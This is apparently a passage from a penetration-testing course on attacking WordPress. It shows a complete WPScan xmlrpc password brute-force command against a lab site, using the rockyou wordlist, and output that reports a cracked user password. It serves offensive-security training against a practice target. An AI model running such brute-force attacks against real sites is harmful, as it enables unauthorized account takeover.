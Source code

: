 # Attacking WordPress

---

We've confirmed that the company website is running on WordPress and have enumerated the version and installed plugins. Let's now look for attack paths and try to gain access to the internal network.

There are several ways we can abuse `built-in functionality` to attack a WordPress installation. We will cover login brute forcing against the `wp-login.php` page and remote code execution via the theme editor. These two tactics build on each other as we need first to obtain valid credentials for an administrator-level user to log in to the WordPress back-end and edit a theme.

---

## Login Bruteforce

WPScan can be used to brute force usernames and passwords. The scan report in the previous section returned two users registered on the website (admin and john). The tool uses two kinds of login brute force attacks, [xmlrpc](https://kinsta.com/blog/xmlrpc-php/) and wp-login. The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through `/xmlrpc.php`. The `xmlrpc` method is preferred as it’s faster.

Attacking WordPress

```shell-session
swmpdnky@htb[/htb]$ sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local

[+] URL: http://blog.inlanefreight.local/ [10.129.42.195]
[+] Started: Wed Aug 25 11:56:23 2021

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - john / firebird1                                                                                           
Trying john / bettyboop Time: 00:00:13 <                                      > (660 / 14345052)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: john, Password: firebird1

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Wed Aug 25 11:56:46 2021
[+] Requests Done: 799
[+] Cached Requests: 39
[+] Data Sent: 373.152 KB
[+] Data Received: 448.799 KB
[+] Memory used: 221 MB

[+] Elapsed time: 00:00:23
```
